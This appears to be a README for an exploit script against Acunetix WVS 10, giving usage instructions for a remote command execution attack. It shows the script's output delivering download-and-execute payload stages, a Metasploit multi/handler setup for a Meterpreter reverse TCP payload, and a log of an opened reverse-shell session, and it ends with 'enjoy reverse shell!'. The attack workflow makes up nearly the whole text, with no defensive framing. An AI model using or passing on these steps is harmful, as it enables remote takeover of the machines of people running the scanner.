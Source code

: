 # Acunetix10 0day RCE

# 使用方法

- Run script with localport <msf地址>

```
Acunetixy.py  9999 172.16.24.1
Acunetix WVS 10 - SYSTEM Remote Command Execution (Daniele Linguaglossa)
Payload: Meterpreter reverse TCP 4444
Exploit started on port *:9999
[+] Waiting for scanner...
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_2 sending (5068) bytes !
[*] Sleeping 1 minutes to elevate privileges...ZzZz
[!] Stopping server !
[!] Exploit successful wait for session!
```
- Then start a metasploit session and listen on port 4444

```
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     0.0.0.0          yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
- Start a new scan with Acunetix using your local ip and enjoy reverse shell!
`
msf exploit(handler) > run
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to 172.16.24.192
[*] Meterpreter session 1 opened (172.16.24.1:4444 -> 172.16.24.192:51782) at 2016-05-02 15:02:31 +0200
`

`视频地址:https://www.youtube.com/watch?v=gWcRlam59Fs`
## ExploitDB地址
`https://www.exploit-db.com/exploits/39755/`

